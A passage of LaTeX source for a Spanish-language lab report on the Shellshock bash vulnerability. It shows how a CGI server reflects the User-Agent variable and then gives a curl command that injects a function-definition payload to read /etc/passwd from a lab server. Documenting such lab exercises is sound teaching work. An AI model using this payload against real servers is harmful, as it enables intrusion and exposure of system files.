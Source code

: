 \documentclass[10pt,a4paper]{article}
\begin{document}
Se puede observar que la respuesta del servidor contiene la variable de entorno \emph{HTTP\_{}USER\_{}AGENT} pero con un valor distinto al ejemplo anterior (Figura \ref{fig:tarea3_modificado}).

\begin{figure}[h!]
\centering
\includegraphics[scale=0.9]{images/Tarea_3_modificada.png}
\caption{Respuesta del servidor con la variable de entorno \emph{HTTP\_{}USER\_{}AGENT} modificada}
\label{fig:tarea3_modificado} 
\end{figure}

\section{Tarea 4: Lanzamiento del Ataque Shellshock}

Para ejecutar un ataque \emph{shellshock} contra el servidor hay que utilizar lo explicado en el apartado anterior. Se va a proceder a inyectar código extra en la definición de una función utilizando la variable de entorno \emph{HTTP\_{}USER\_{}AGENT}.\\

Para robar el contenido de un fichero secreto del servidor se ha elegido el fichero \texttt{/etc/passwd} que no es visible para los usuarios externos al servidor (no hay forma de acceder a el vía \emph{HTTP}). Se va a utilizar el siguiente comando:

\begin{lstlisting}
curl -v \
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd;" \
http://192.168.56.106/cgi-bin/myprog.cgi
\end{lstlisting}

Tras esto observaremos que la respuesta del servidor es la reflejada en la Figura \ref{fig:tarea4_a}.
\end{document}
